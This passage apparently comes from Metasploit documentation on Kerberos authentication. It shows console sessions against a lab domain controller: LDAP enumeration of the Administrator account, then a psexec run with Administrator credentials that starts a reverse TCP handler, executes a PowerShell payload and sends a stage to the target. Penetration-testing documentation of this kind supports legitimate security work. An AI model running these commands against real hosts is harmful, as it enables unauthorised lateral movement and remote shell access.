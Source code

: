 Query LDAP for accounts:

```msf
msf > use auxiliary/gather/ldap_query
msf auxiliary(gather/ldap_query) > run action=ENUM_ACCOUNTS rhost=192.168.123.13 username=Administrator password=p4$$w0rd ldap::auth=kerberos ldap::rhostname=dc3.demo.local domain=demo.local domaincontrollerrhost=192.168.123.13
[*] Running module against 192.168.123.13

[+] 192.168.123.13:88 - Received a valid TGT-Response
[*] 192.168.123.13:389 - TGT MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120714_default_192.168.123.13_mit.kerberos.cca_216797.bin
[+] 192.168.123.13:88 - Received a valid TGS-Response
[*] 192.168.123.13:389 - TGS MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120714_default_192.168.123.13_mit.kerberos.cca_638903.bin
[+] 192.168.123.13:88 - Received a valid delegation TGS-Response
[*] Discovering base DN automatically
[+] 192.168.123.13:389 Discovered base DN: DC=adf3,DC=local
CN=Administrator CN=Users DC=adf3 DC=local
==========================================

 Name                Attributes
 ----                ----------
 badpwdcount         0
 description         Built-in account for administering the computer/domain
 lastlogoff          1601-01-01 00:00:00 UTC
 lastlogon           2023-01-23 11:02:49 UTC
 logoncount          159
 memberof            CN=Group Policy Creator Owners,CN=Users,DC=domain,DC=local || CN=Domain Admins,CN=Users,DC=domain,DC=local |
                     | CN=Enterprise Admins,CN=Users,DC=domain,DC=local || CN=Schema Admins,CN=Users,DC=domain,DC=local || CN=Adm
                     inistrators,CN=Builtin,DC=domain,DC=local
 name                Administrator
 objectsid           S-1-5-21-3402587289-1488798532-3618296993-500
 pwdlastset          133189448681297271
 samaccountname      Administrator
 useraccountcontrol  512

 ... etc ...
```

Running psexec against a host:

```msf
msf > use exploit/windows/smb/psexec
msf exploit(windows/smb/psexec) > run rhost=192.168.123.13 username=Administrator password=p4$$w0rd smb::auth=kerberos domaincontrollerrhost=192.168.123.13 smb::rhostname=dc3.demo.local domain=demo.local

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] 192.168.123.13:445 - Connecting to the server...
[*] 192.168.123.13:445 - Authenticating to 192.168.123.13:445|demo.local as user 'Administrator'...
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid TGT-Response
[*] 192.168.123.13:445 - 192.168.123.13:445 - TGT MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120911_default_192.168.123.13_mit.kerberos.cca_474531.bin
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid TGS-Response
[*] 192.168.123.13:445 - 192.168.123.13:445 - TGS MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120911_default_192.168.123.13_mit.kerberos.cca_169149.bin
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid delegation TGS-Response
[*] 192.168.123.13:445 - Selecting PowerShell target
[*] 192.168.123.13:445 - Executing the payload...
[+] 192.168.123.13:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 192.168.123.13
```

[1]: http://web.mit.edu/KERBEROS/krb5-devel/doc/formats/ccache_file_format.html